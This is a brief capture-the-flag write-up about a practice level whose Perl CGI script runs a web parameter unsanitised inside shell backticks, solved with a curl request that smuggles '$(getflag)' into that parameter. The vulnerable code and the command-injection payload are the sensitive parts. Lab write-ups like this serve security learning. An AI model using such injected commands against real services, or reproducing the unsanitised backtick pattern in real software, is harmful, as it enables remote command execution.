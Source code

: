 # Perl

This executable is a Perl script:

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

This script listens port 4747 to echo whatever it gets in the `x` variable.

`perl ./level04.pl 'x=\$(getflag)'` and variants are not cooperating.

`service --status-all` shows an Apache instance running and a copy of this script is also in `/var/www/level04`.

We can play with `curl` like...
```bash
curl http://192.168.56.102:4747/\?x\=\$\(getflag\)
```

And magic, we got the flag